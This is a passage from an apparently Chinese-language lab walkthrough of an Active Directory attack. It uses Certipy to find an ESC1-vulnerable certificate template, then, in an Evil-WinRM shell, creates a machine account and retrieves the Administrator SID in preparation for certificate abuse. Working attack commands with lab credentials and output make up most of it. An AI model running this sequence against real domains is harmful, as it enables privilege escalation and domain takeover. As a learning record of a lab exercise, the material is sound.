 ## 5.2 证书服务枚举

使用 Certipy 枚举证书模板：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ certipy-ad find -u hyh@confidence.com -p 3948571026 -dc-ip 192.168.205.177 -vulnerable -stdout
...
Certificate Templates
  0
    Template Name                       : ca-login
    Display Name                        : ca-login
    Certificate Authorities             : confidence-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollee Supplies Subject           : True
    Authorized Signatures Required      : 0
    Enrollment Rights                   : CONFIDENCE.COM\ca-admin
                                          CONFIDENCE.COM\Domain Admins
                                          CONFIDENCE.COM\Domain Computers
                                          CONFIDENCE.COM\Enterprise Admins
    [+] User Enrollable Principals      : CONFIDENCE.COM\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

关键发现：

- **ESC1漏洞**：证书模板允许申请者提供主题名称
- **ca-admin组权限**：该组可以注册证书
- **ca-user是ca-admin成员**

## 5.3 创建机器账户用于证书申请

添加机器账户以利用Domain Computers权限：

```powershell
*Evil-WinRM* PS C:\Users\hyh\Desktop> net computer \\EVILPC /add
命令成功完成。

*Evil-WinRM* PS C:\Users\hyh\Desktop> $machinepass = ConvertTo-SecureString "passwd123" -AsPlainText -Force
*Evil-WinRM* PS C:\Users\hyh\Desktop> Set-ADAccountPassword -Identity "EVILPC$" -NewPassword $machinepass -Reset
```

## 5.4 获取Administrator SID

```powershell
*Evil-WinRM* PS C:\Users\hyh\Desktop> Get-ADUser administrator | select SID
SID
---
S-1-5-21-3649830887-1815587496-1699028491-500
```
